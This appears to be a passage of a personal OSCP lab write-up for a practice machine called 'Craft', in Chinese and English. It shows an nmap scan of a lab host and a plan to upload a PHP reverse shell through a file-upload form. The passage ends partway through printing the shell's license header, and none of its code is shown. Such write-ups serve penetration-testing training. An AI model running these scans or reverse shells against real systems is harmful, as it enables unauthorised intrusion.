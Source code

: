 ## Nmap

```json
┌──(ouyang㉿kali)-[~/offensive-security/OSCP/Craft]
└─$ sudo nmap -A -sV -sS -T4 192.168.200.169 -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2023-09-02 15:34 CST
Nmap scan report for 192.168.200.169
Host is up (0.30s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Craft
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): AVtech embedded (87%), Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%), Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   301.96 ms 192.168.45.1
2   300.88 ms 192.168.45.254
3   300.89 ms 192.168.251.1
4   300.86 ms 192.168.200.169

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.78 seconds
```

![[截圖 2023-09-02 下午3.39.32.png]]

發現有檔案上傳功能，嘗試上傳 php reverse shell

```json
┌──(ouyang㉿kali)-[~/offensive-security/OSCP/Craft]
└─$ cat php-reverse-shell.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
```